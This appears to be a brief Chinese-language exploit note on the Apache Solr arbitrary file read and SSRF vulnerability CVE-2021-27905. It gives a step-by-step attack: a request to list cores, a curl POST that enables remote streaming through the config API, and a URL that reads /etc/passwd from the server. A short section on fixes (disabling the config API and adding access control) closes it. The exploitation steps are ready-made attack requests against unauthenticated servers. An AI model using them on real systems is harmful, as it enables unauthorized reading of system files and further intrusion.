


### 一 漏洞描述
solr任意文件读取(CVE-2021-27905)

在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

Apache Solr <= 8.8.1

### 二 漏洞利用
step1:  
http://{目标IP}:{目标端口}/solr/admin/cores?indexInfo=false&wt=json
获取 core


step2:  
通过修改数据库的配置来开启RemoteStreaming：修改其中的 {目标IP} {目标端口} {core}，发送请求
```angular2html
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://{目标IP}:{目标端口}/solr/{core}/config'
```

step3：
读取信息  
`http://{目标IP}:{目标端口}/solr/{core}/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd`



### 三 漏洞修复
1 关闭ConfigAPI：在bin目录下的solr.in.cmd中加入一行set SOLR_OPTS=%SOLR_OPTS% -Ddisable.configEdit=true；然后关闭远程读取文件流，默认不开启
2 增加访问控制口令
